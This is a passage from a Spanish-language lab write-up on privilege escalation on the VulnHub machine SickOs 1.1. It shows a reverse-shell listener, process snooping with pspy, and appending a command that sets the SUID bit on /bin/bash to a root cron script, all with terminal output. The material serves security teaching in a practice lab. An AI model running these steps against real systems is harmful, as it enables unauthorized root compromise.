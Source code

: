 
## Escalación de privilegios

---

Teniendo ejecución de código gracias al archivo `cmd.php`, procedemos a lanzarnos una reverse shell.

![reverse](/assets/img/commons/vulnhub/SickOs1.1/reverse.png){: .center-image }

```bash
❯ sudo rlwrap nc -nlvp 9999
[sudo] password for lvs3c:
listening on [any] 9999 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.15] 50750
bash: no job control in this shell
www-data@SickOs:/var/www/wolfcms/public$ whoami
www-data
www-data@SickOs:/var/www/wolfcms/public$
```

Usamos la herramienta [**Pspy**](https://github.com/DominicBreuker/pspy) y vemos una tarea `CRON` ejecutada por el usuario root sobre un archivo python, sobre dicho archivo tenemos permiso para modificarlo.


`Tarea CRON`

```bash
2025/02/12 04:26:01 CMD: UID=0     PID=20472  | /usr/bin/python /var/www/connect.py
2025/02/12 04:26:01 CMD: UID=0     PID=20471  | /bin/sh -c /usr/bin/python /var/www/connect.py
2025/02/12 04:26:01 CMD: UID=0     PID=20470  | CRON
```

Añadimos nuestro códogo al archivo, para cambiar los permisos de la bash añadiendo el `bit SUID`.

```bash
echo "import os; os.system('chmod u+s /bin/bash')" >> /var/www/connect.py
```

Procedemos a ejecutar bash con privilegios (-p) sobre root y listamos la Flag.

```bash
www-data@SickOs:/var/www/wolfcms/public$ cat /var/www/connect.py
cat /var/www/connect.py
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"

www-data@SickOs:/var/www/wolfcms/public$ echo "import os; os.system('chmod u+s /bin/bash')" >> /var/www/connect.py
< os; os.system('chmod u+s /bin/bash')" >> /var/www/connect.py
www-data@SickOs:/var/www/wolfcms/public$ ls -l /bin/bash
ls -l /bin/bash
-rwxr-xr-x 1 root root 920788 Mar 28  2013 /bin/bash

www-data@SickOs:/var/www/wolfcms/public$ ls -l /bin/bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 920788 Mar 28  2013 /bin/bash

www-data@SickOs:/var/www/wolfcms/public$ bash -p
bash -p
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```
